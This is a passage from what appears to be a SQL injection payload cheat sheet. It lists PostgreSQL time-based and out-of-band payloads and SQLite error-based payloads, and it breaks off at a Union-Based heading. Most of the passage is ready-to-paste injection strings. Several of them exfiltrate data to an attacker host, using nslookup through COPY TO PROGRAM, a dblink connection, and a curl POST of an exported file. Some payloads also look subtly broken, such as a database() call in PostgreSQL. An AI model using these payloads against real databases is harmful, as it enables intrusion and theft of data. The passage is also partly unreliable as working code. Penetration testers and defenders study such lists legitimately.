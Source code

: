 - **Extracting Data from a Column:** Causes a 5-second delay if the first character of the first username in the `users` table is 'a'.

```
' OR (SELECT CASE WHEN (SUBSTRING(username, 1, 1) = 'a') THEN pg_sleep(5) ELSE pg_sleep(0) END FROM users LIMIT 1) -- -
```

### Out-of-Band SQLi

- **DNS Exfiltration Using COPY:** Uses the `COPY` command to send the database version to an attacker-controlled DNS server.

```
' COPY (SELECT version()) TO PROGRAM 'nslookup $(database()).attacker.com' -- -
```

- **HTTP Exfiltration Using PL/pgSQL:** Uses the `dblink` extension to send the current PostgreSQL user to an attacker-controlled server.

```
' DO $$ BEGIN PERFORM dblink_connect('host=attacker.com user=attacker password=pass');  PERFORM dblink_exec('INSERT INTO exfiltrated_data(data) VALUES (''' || current_user || ''')');  END $$; -- -
```

- **Exfiltration Using LO_EXPORT:** Exports the current user to a file and sends it to an attacker-controlled server via an HTTP POST request.

```
' SELECT lo_export(lo_creat(-1), '/tmp/' || current_user || '.txt');  COPY (SELECT lo_import('/tmp/' || current_user || '.txt')) TO PROGRAM 'curl -X POST --data-binary @/tmp/' || current_user || '.txt http://attacker.com/'; -- -
```

## SQLite

### Error-Based SQLi

- **Type Mismatch:** Causes an error by casting a string to an integer.

```
' AND 1=CAST('a' AS int) -- -
```

- **Version Information:** Triggers an error by comparing the SQLite version to an invalid number.

```
' AND sqlite_version()=0 -- -
```

- **Invalid Function:** Causes an error by exceeding the length limit of a function.

```
' AND LENGTH((SELECT sql FROM sqlite_master WHERE type='table' AND name='users'))=1000 -- -
```

### Union-Based SQLi

- **SQLite Version:** Appends the SQLite version to the result set.

